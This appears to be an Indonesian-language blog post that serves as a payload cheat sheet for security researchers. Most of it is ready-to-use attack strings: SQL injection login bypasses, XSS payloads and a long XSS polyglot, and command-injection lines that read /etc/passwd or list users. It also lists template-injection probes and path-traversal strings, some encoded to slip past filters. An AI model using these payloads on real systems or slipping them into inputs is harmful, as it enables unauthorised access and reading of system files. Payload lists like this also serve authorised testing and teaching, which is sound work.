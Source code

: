 ```yaml
---
title: Payloads for Security Researcher
excerpt: Ini adalah bagian dari instruksi yang dieksekusi untuk mengeksploitasi kerentanan dalam sistem.
date: 2025-03-31 01:37:00
tags: [securityresearcher]
categories:
  - [Resources for Security Researcher]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/reincarnation.png
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337rokudenashi.png
---
```


### **Payloads for Security Researcher**

Ini adalah bagian dari instruksi yang dieksekusi untuk mengeksploitasi kerentanan dalam sistem. 

**Payloads for SQL Injection Authentication Bypass**

- `' or 1=1 limit 1 -- -+`
- `'="or'`

**Payloads for Cross-Site Scripting**

- `"><script>alert('vulnerable')</script>`
- `"><img src=vulnerable onerror=alert('vulnerable') />`
- `"><svg onload=alert('vulnerable')>`
- `"><input type=image src onerror="alert('vulnerable')">`

**XSS Polyglots**

Poliglot XSS adalah string yang mampu disuntikkan ke dalam beberapa konteks yang berbeda dan masih menghasilkan eksekusi JavaScript, ini bekerja di lebih dari 20 konteks.

- payload for xss polyglots
```
jaVasCript:/*-/*`/*`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>x3csVg/<sVg/oNloAd=alert()//>x3e
```

Kelemahan poliglot adalah mudah terdeteksi oleh firewall aplikasi web (WAF), mereka cenderung cukup panjang dalam hal panjang karakter, dan mereka tidak berfungsi di setiap konteks.

**Payloads for Command Injection**

- `; uname -a; cat /etc/passwd`
- `& cmd /c "whoami & net user"`

**Payloads for Server-Side Template Injection**

- `{{ 13*37 }}`
- `${{13*37}}`
- `<%= 13*37 %>`
- `#{13*37}`
- `{{= 13*37 }}`

**Payloads for Path Traversal**

- `../../../etc/passwd`
- `/etc/passwd`
- `....//....//....//etc/passwd`
- `..%252f..%252f..%252fetc/passwd`
- `../../../etc/passwd%00.png`

Ini telah disesuaikan untuk peneliti keamanan melakukan pengujian kerentanan yang lebih luas dan mendalam.
